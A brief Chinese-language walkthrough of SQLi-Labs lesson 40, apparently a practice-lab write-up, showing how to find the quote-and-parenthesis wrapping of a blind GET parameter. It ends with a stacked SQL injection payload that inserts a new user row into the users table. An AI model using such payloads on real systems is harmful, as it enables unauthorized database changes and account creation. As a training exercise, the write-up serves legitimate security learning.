 # GET-BLIND based-String-Stacked  
TAG：GET型注入、盲注、堆叠注入  
## 漏洞利用  
![less40_1](images\less40_1.png)  
本less中关闭了报错信息的回显，可以参照之前的讲解来进行参数包裹方式的判断    
![less40_2](images\less40_2.png)  
  
通过测试可知参数被单引号包裹还带有小括号  
构造添加用户的payload:```?id=1');insert into users(id,username,password) values ('19','less40','hello')--+```  
![less40_3](images\less40_3.png)  